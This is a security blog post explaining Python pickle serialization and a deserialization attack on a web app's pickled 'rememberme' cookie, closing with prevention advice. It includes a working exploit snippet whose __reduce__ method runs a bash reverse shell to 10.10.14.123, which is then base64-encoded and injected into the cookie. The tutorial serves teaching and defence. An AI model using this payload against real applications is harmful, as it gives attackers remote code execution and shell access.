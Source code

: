```yaml
---
layout: post
title: "Deserialization Attack Using Python's Pickle Module"
subtitle: "And a practical use-case"
date: 2022-04-27 09:00:00 -0400
background: '/img/bg-about.jpg'
---
```

# Deserialization Attack Using Python's Pickle Module

![python-pickle-logo.png](/img/posts/serialization-pickle/python-pickle-800x200.png)

## Serialization explained

Serialization is a process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file.
<br>  
![packing-serialization](/img/posts/serialization-pickle/c-sharp-serialization.png)
<br>  
This is done for a variety of reasons, some of them being :

-Persistence: storing an object in its current state for later retrieval; eg. App memory gets cleared from RAM upon exit, but the application has serialized and saved the objects to disk before it exited - so it can easily retrieve them later

-Ease of communication: two machines running the same code can use serialized objects for communication - one machine can build an object and serialize it and then send it over to the other machine

-Network transmission: serialized objects are used by web applications to ensure faster data transmission and integrity

## Python's pickle module

The Pickle module is native to Python, and "Pickling" is the process where a Python object is converted into a byte stream, and "Depickling" is the opposite - where a byte stream is converted back to an object.


## Practical use-case

Consider a web application which uses pickled data as the cookie value.
<br>  
![request-burp](/img/posts/serialization-pickle/request.png)
<br>  
How can we guess this is pickled data? By decoding the "rememberme" cookie value, its visible that it looks like a pickled value:
<br>  
![rememberme-cookie-value](/img/posts/serialization-pickle/rememberme-cookie-value.png)
<br>  
We can now generate our pickled object to get code execution. This is a sample python code which we can use:

```
import cPickle
import os
class exploit(object):
  def __reduce__(self):
    return (os.system,("/bin/bash -i >& /dev/tcp/10.10.14.123/80 0>&1",))
e = exploit()
print cPickle.dumps(e)
```

Note the result when running the code :
<br>  
![pickled-object](/img/posts/serialization-pickle/pickled-object.png)
<br>  
Since this object is being used by the web application, to ensure data integrity - it is base64 encoded:
<br>  
![b64-pickled_object](/img/posts/serialization-pickle/b64-pickled_object.png)
<br>  
Once this is done we can simply set up our listener and paste the b64 payload into the "rememberme" cookie value and after sending the request it will result in code execution - and in this case a reverse shell.

## Prevention

It is widely considered that unserializing data from an untrusted source or giving the users ability control over the objects is a bad idea.

The pickle module is NOT intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

If the application needs to ensure that the data has not been tampered with - consider using HMAC ((Hash-based Message Authentication Code) - which is available as a separate Python module.